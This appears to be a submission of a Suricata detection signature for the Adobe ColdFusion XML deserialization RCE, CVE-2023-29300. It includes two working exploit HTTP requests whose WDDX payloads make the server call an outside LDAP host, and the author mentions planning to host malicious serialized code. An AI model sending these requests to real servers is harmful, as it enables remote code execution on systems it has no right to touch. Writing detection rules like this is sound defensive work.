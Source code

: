# ET Open Submission (Return from PCRE grave)
### May 2nd, 2024
### Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)


![8olo1g](https://github.com/eatinsundip/Suricata/assets/43767555/aadafd56-30f9-4747-bb3e-2d78dcfa22f4)


## Resources

1. [https://github.com/taythebot/CVE-2022-46169](https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2023-29300)
2. [https://blog.projectdiscovery.io/adobe-coldfusion-rce/](https://blog.projectdiscovery.io/adobe-coldfusion-rce/)

### The exploit itself:

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333


argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

I was however able to get the LDAP calls to fire on much less.

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo HTTP/1.1
127.0.0.1
User-Agent: curl/8.5.0
Accept: */*
Content-Length: 387
Content-Type: application/x-www-form-urlencoded

argumentCollection=%3CwddxPacket%20version%3D%271.0%27%3E%3Cheader%2F%3E%3Cdata%3E%3Cstruct%20type%3D%27xcom.sun.rowset.JdbcRowSetImplx%27%3E%3Cvar%20name%3D%27dataSourceName%27%3E%3Cstring%3Eldap%3A%2F%2F192.168.1.144%2Ftest.ser%3C%2Fstring%3E%3C%2Fvar%3E%3Cvar%20name%3D%27autoCommit%27%3E%3Cboolean%20value%3D%27true%27%2F%3E%3C%2Fvar%3E%3C%2Fstruct%3E%3C%2Fdata%3E%3C%2FwddxPacket%3E
```

## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)"; flow:to_server,established; http.method; content:"POST"; http.uri; content:"/CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true"; fast_pattern; bsize:59; http.request_body; content:"argumentCollection|3d 3c|wddxPacket|20|version|3d 27|1|2e|0|27 3e 3c|header|2f 3e 3c|data|3e 3c|struct|20|type|3d 27|xcom|2e|sun|2e|rowset|2e|JdbcRowSetImplx|27 3e 3c|var|20|name|3d 27|dataSourceName|27 3e 3c|string|3e|ldap|3a 2f 2f|"; pcre:"/^.{3,100}/"; content:"|3c 2f|string|3e 3c 2f|var|3e 3c|var|20|name|3d 27|autoCommit|27 3e 3c|boolean|20|value|3d 27|true|27 2f 3e 3c 2f|var|3e 3c 2f|struct|3e 3c 2f|data|3e 3c 2f|wddxPacket|3e|"; sid:1; rev:1; metadata:attack_target Server, created_at 2024_05_02, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2024_05_02;)```


[Job Zip](https://github.com/eatinsundip/Suricata/files/15189851/9dfa93c65d3bbd7d.zip)

[https://dalton.securitymidwest.net/dalton/job/9dfa93c65d3bbd7d](https://dalton.securitymidwest.net/dalton/job/9dfa93c65d3bbd7d)


## NOTES
- I am a little rusty and very open to critique
- I plan to get a working LDAP server to host malicious serialized code.
	- I have never attempted RCE with an LDAP server so it's a learning experience.
